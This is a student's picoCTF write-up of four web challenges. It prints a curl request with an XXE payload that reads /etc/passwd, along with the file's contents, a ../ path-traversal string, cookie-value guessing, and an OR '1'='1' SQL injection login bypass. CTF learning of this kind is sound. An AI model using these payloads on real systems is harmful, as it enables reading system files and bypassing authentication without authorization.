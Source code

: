 # Web Exploitation

* This is a domain I have very little experience in other than OASIS. So a Little bit of time will be taken to solve these + will have to lookup writeups If I hit a hard roadblock.

## SOAP

I had a dilemma whether to use burp suite or curl as I didnt have much experience in curl but since burp suite led me nowhere I just used these commands to get the flag after reading up on some resources on using curl.
Resource :  https://portswigger.net/web-security/xxe
```
satwik@Satwik:~/picoctf/cryptography/minirsa$ curl 'http://saturn.picoctf.net:59393//data' \
> -H 'Accept: */*' \
> -H 'Content-Type: application/xml' \
> --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
> --insecure
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```
Thus I got the flag : `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`

## Forbidden Paths 
Since it is given that the flag is in the directory `/usr/share/nginx/html/ ` and the flag existed in the directory `/flag`. Since absolute files don't work you have to use a relative path.
The website contains a prompt that reads the file of whatever relative path is inputted. Therefore if you input `../../../../flag.txt`, we get the flag.

flag: `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

## Cookies

Since Im familiar with cookies due to OASIS CTF. 
I tried changing the cookie from -1 to 1

![alt text](/assets/cookies1.png)

But AS u can see it says its not the right cookie so I tried incrementing the value one by one and at 18 I found the flag.

![alt text](/assets/cookies2.png)




The flag : `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`

## SQLiLite

I Wanted to learn SQL injection, So I did this challenge.


I tried `admin` and `satwik123` in the fields.

![alt text](/assets/imageforsql.png)



![alt text](/assets/asql2.png.png)

Since They show us the sql query. I put these In-Band SQLI payloads :
 ```
admin` OR '1' = '1' as username
satwik123 as password
```
![alt text](/assets/asql3.png)

which granted me access to the site and checking the html of the page gave me the flag easily.

![alt text](/assets/asql4.png)

The flag: `picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}`






